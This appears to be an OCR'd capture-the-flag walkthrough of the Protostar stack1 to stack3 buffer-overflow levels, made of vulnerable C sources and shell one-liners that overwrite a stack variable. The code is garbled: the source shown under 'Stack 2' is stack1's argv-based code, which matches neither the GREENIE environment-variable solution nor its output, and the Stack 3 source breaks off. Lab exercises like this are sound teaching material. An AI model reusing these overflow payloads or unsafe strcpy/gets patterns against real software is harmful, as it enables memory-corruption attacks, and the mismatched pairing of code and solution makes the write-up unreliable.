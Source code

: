 
This level teaches us about little endian addressing and ascii/hex encoding.

```bash
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c 'print ("A" * 64 + "dcba")')
you have correctly got the variable to the right value
```

## Stack 2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

```bash
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d" ' )
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

## Stack 3

The source code for this level looks like.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);
```